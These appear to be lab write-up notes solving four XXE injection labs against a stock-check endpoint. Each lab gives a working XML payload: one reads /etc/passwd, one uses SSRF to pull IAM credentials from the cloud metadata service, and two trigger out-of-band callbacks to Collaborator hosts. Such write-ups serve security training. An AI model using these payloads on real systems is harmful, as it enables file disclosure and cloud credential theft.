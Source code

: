 ### LAB: Exploiting XXE using external entities to retrieve files
Use this as the body for the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>

This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value. The data then is sent within the appilcation's response.

### LAB: Exploiting XXE to perform SSRF attacks
Same as above lab:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>

How to get to this path `/latest/meta-data/iam/security-credentials/admin`? Just follow the value in the error message respond by the server.

### LAB: Blind XXE with out-of-band interaction
Use this as the body of the `POST /product/stock HTTP/2` request to trigger a DNS lookup to the Collaborator domain:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY xxe SYSTEM "https://p1r24ceyni3yrv9h0leoinb8xz3qrgf5.oastify.com">]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Blind XXE with out-of-band interaction via XML parameter entities
Sometimes, XXE attacks using regular entities (used in the document's context) are blocked, due to some input validation by the application or some hardening of the XML parser that is being used.
In this situation, you might be able to use XML parameter entities instead (`%xee;`). XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. Use this as the body of the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://1hjekoua3uja77ptgxu0yzrkdbj27uvj.oastify.com"> %xxe; ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
